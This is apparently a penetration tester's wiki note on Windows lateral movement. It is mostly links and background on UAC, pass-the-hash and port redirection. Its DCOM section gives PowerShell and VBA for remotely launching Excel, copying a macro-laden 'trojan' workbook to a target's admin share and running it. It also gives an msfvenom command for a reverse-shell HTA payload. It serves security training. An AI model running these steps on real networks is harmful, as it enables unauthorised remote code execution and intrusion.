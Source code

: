 # Windows Network Lateral Movement
The articles [[Networks/Network-Theory/Network-Protocols/Network-Protocols]], [[Networks/Network-Protocols]] and [[Windows-Networking]] will provide theory background information, while [[Windows-Networking-Commands]], [[Windows-CLI-cmd]] ,[[SMB-Recon-Cheatsheet]] and [[RPCClient-Cheatsheet]] articles will provide command cheatsheet referal.

The are many ways to navigate the network and move laterally through it, the most stealthier from an attacker perspective is to use live off the land and sue common Administrative Tools or by emulating regular user behaviour, but also SysAdmin behaviour - why would a local admin connect from machine that has no reason to connect to another.

This article will require some knowledge of **Integrity Tokens** [[Bypassing-Windows-User-Account-Control]] and [[Windows-User-Account-Control]] as the restrictions imposed by this system, some methods may fail due UAC enforcement. Also Domain and Local Administrators are different objects, but Domain Admins with Local Admin privileges will not be subject to the same checks as a Local Admin. For remote restrictions made by UAC documentation see [UAC Remote Restriction Documentation](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) 

## Contents

[[AD-Lateral-Movement-Spawning-Remote-Processes]]
[[AD-Lateral-Movement-With-WMI]]
[[AD-Lateral-Movement-Alternate-Authenication-Material]]
[[AD-Lateral-Movement-Abusing-User-Behaviour]]

## Port Redirection

Often in real-world networks, Administrator with block some ports for security reassons or have implemented segmentation around the network preventing SMB, RDP, WinRM or RPC ports. Therefore  [[Port-Redirection-And-Tunneling]] is used to bypass these restrictions.

## Exploitation Hashes and Ticket passing for Lateral Movement

See indiviual articles:
[[Pass-The-Hash]]
[[Overpass-The-Hash]]
[[Pass-The-Ticket]]


## Distributed Component Object Model(DCOM)
[The Microsoft Component Object Model (COM) is a system for creating software components that interact with each other](https://en.wikipedia.org/wiki/Component_Object_Model). Similar to [[Object-Oriented-Programming]], but for OS objects and thier interactions. [DCOM](https://en.wikipedia.org/wiki/Distributed_Component_Object_Model) being *Distributed* object across a Windows Network. They ancient technologies that are present in the early days of Windows. One of many [[Networks/Network-Protocols]] used in AD it specifically interaction with DCOM is performed over RPC on TCP port 135 and local administrator access is required to call the DCOM Service Control Manager, which is essentially an API. [Enigmaox3](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

There are various Microsoft Office DCOM objects that allow for lateral movement.
```powershell
# Create an instance, listing all avaliable methods 
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "$IP"))
$com | Get-Member
```
With the `Run` method we can run VBA macro remotely.
```vba
Sub mymacro()
    Shell ("cmd.exe")
End Sub
```
Using legacy .xls formatting the macro is write inside the Office \*-application and then copied to a remote filesystem through SMB using .NET `Copy` method of `System.IO.File` class.
```powershell
$LocalPath = "C:\Users\Administrator\mytrojan.xls"
$RemotePath = "\\$IP\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```
To then open it remotely
```powershell
$Path = "\\$IP\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
```

The base64 encode [[MSFvenom-Payloads]] command to create HTA attack is:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -f hta-psh -o evil.hta
```
The LHOST can be the DC that can called back to a listener.

[[Impacket-Cheatsheet]] with dccomexec.py

## Pass the ccache
[hackingarticles](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)



## References

[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting)[hackingarticles](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) 
[Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
[Metasploit PsExec](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)
[Alternate PtH methods](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/0)
[Graeber BH Whitepaper](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)
[DCOM](https://en.wikipedia.org/wiki/Distributed_Component_Object_Model) 
[COM](https://en.wikipedia.org/wiki/Component_Object_Model)
[MS DCOM Documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0?redirectedfrom=MSDN) 
[Enigmaox3](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)
[UAC Remote Restriction Documentation](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) 
